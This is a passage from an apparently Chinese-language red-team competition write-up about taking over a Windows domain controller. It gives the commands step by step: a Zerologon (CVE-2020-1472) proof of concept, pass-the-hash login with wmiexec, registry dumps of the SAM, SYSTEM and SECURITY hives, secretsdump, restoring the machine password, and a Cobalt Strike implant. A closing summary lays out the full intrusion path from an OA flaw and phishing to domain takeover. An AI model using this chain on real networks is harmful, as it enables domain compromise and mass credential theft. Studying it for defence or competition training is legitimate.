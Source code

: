   * 

    
    
    python3poc.py 域名/域控主机名\$@域控ip-just-dc -no-pass

  
![](https://gitee.com/fuli009/images/raw/master/public/20220330202450.png)  
拿到了域管理员账号和hash，赶紧登录域控，这里使用wmiexec进行连接，下图登录成功，起飞！  

  * 

    
    
    python3wmiexec.py -hashes xxx:xxx 域名/管理员用户名@域控ip

  
![](https://gitee.com/fuli009/images/raw/master/public/20220330202452.png)  
Powershell上个cs的马，使用如下命令获取dump域控保存在本地注册表的原始主机账号密码。  

  *   *   * 

    
    
    regsave HKLM\SYSTEM system.saveregsave HKLM\SAM sam.saveregsave HKLM\SECURITY security.save

  
再使用脚本还原主机密码：  

  * 

    
    
    python3secretsdump.py -sam sam.save -system system.save -securitysecurity.save LOCAL

  
得到$MACHINE的hash：  
![](https://gitee.com/fuli009/images/raw/master/public/20220330202453.png)  

  * 

    
    
    python3reinstall_original_pw.py 域控主机名域控ip$MACHINEhash

  
![](https://gitee.com/fuli009/images/raw/master/public/20220330202454.png)  
那么到这一步之后，漏洞利用就完成了。再到cs上hashdump获取密码，拿着密码登录域控，有了域控就可以查看域内所有用户和终端服务器了，接下来的事就是搜集各种信息数据了。  
大功告成！打完收工！  
![](https://gitee.com/fuli009/images/raw/master/public/20220330202455.png)  
 **3**  
 **总结**  
最后，梳理一下攻击路径。  
首先，利用OA漏洞拿到邮箱账号密码；  
然后钓鱼拿到内网域终端；  
接着定位域控，使用CVE-2020-1472poc确定存在漏洞的域控；  
随后重置域控机器密码，拿到域控命令执行权限，上线cs；  
最后还原机器密码，读取域控内存拿到明文密码，登录域控。  
不到一天的时间，从外网到拿下域控，思路正确，效率自然提升。  
珍惜那些可以为了比赛彻夜不眠、与小伙伴协同奋斗的岁月吧，那是为了自己而努力绽放的时光，短暂又美好。

  